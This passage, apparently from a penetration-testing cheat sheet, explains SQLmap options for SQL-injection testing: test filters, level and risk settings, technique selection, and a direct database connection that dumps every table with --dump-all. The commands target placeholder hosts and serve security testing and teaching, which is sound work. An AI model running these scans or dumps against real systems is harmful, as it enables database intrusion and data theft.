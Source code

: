 ```ps1
sqlmap -u "https://www.target.com/page.php?category=demo" -p category --test-filter="Generic UNION query (NULL)"
sqlmap -u "https://www.target.com/page.php?category=demo" --test-filter="boolean"
```

By default, SQLmap runs with level 1 and risk 1, which generates fewer requests. Increasing these values without a purpose may lead to a larger number of tests that are time-consuming and unnecessary. 

```ps1
sqlmap -u "https://www.target.com/page.php?id=1" --level=1 --risk=1
```

Use the `--technique` option to specify the types of SQL injection techniques to test for, rather than testing all possible ones.

```ps1
sqlmap -u "https://www.target.com/page.php?id=1" --technique=B
```


## SQLmap Without SQL Injection

Using SQLmap without exploiting SQL injection vulnerabilities can still be useful for various legitimate purposes, particularly in security assessments, database management, and application testing. 

You can use SQLmap to access a database via its port instead of a URL.

```ps1
sqlmap.py -d "mysql://user:pass@ip/database" --dump-all
```


## References

- [#SQLmap protip - @zh4ck - March 10, 2018](https://twitter.com/zh4ck/status/972441560875970560)
- [Exploiting Second Order SQLi Flaws by using Burp & Custom Sqlmap Tamper - Mehmet Ince - August 1, 2017](https://pentest.blog/exploiting-second-order-sqli-flaws-by-using-burp-custom-sqlmap-tamper/)